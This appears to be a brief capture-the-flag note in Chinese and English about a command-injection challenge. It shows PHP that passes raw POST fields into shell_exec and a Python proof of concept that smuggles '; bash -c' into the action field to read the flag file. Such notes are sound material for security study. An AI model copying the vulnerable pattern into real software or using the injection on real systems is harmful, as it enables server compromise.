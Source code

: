 # 题目
	- ```php
	      $action = $_POST["action"];
	      $data = "'".$_POST["data"]."'";
	  
	      $output = shell_exec("不用管 -jar jar/NCHU.jar $action $data"); 
	  ```
- # PoC
	- ```python
	  r = base_post(url, data = {
	      "action": "; bash -c ",
	      "data": "cat /flag"
	  })
	  
	  print(r.text)
	  ```